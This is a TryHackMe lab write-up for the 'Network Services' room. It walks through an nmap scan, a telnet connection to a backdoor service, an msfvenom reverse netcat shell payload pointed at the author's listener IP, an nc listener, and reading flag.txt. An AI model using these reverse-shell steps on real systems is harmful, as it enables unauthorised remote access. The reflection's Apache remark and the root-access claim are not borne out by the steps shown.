 # Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access the target's assets by exploiting vulnerable services to access valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that the top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 and discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)

  - **Findings**:
	The open port is 8012
    	A possible username might be Skidy
        - Service might be a backdoor 

### 3.3 Exploitation
- **Vulnerability Identification**: Telnet vulnerability
  - **Techniques Used**:  Exploit using netcat reverse shell payload in the telnet server

- **Exploitation Process**:
  
- Enter `telnet 10.10.177.199 8012`  now you can connect to the telnet server using the discovered port 8012
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)

- Enter `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.64.194 lport=4444 R` to generate a reverse shell payload using msfvenom  
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/56f3c19c-bd00-4d59-98f6-7f47da11b424)

- Enter `nc -lvp 4444` to start netcat lister to listen for inbound connection and see data
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/cef1919e-40fc-4e27-b83b-7e1cbd3e0f18)

- Copy the payload into the telnet server CLI and press enter
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/09af501b-3792-4d1d-9fa7-0dc51f9f299d)

- Go to the netcat lister and enter `ls` it will show the file flag.txt
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/bad9f0bf-77d9-4770-90d3-5240f7384d8a)

- Enter `cat flag.txt` to capture the flag
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/d4896955-1e10-4cb3-9576-65c33d4684c5)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

